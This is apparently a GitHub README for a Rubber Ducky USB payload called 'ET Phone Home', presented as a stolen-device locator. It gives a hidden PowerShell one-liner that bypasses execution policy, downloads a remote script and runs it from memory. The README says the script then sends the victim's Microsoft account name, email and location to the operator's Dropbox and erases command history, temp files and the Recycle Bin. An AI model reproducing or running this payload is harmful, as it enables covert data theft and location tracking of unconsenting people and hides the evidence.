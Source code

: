 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# ET Phone Home

A script I put together to locate your stolen devices, or your "stolen" baited devices

## Description

This program is meant to locate your devices. When someone plugs it into their computer a one liner in the run box a script 
will be downloaded and executed that grabs the Name and email of the associated microsoft account and the 
latitude and longitude of where the device was activated. This information is stored in a text document that is then uploaded to your dropbox. 
Finally the end of the script will delete the runbox and powershell history and delete the files in the TMP Folder and Recycle Bin. 

## Getting Started

### Dependencies

* DropBox - Your Shared link for the intended file
* Windows 7,10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Your device is plugged into the targets computer
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory 
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
Something Like What you see below will be in your cloud storage:

NAME

EMAIL 

LATITUDE AND LONGITUDE

```
Jakoby

jakoby@example.com

 Latitude  Longitude
 --------  ---------
37.778919 -122.416313
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Kalani


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/RubberDucky/Payloads/RD-ET-Phone-Home)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
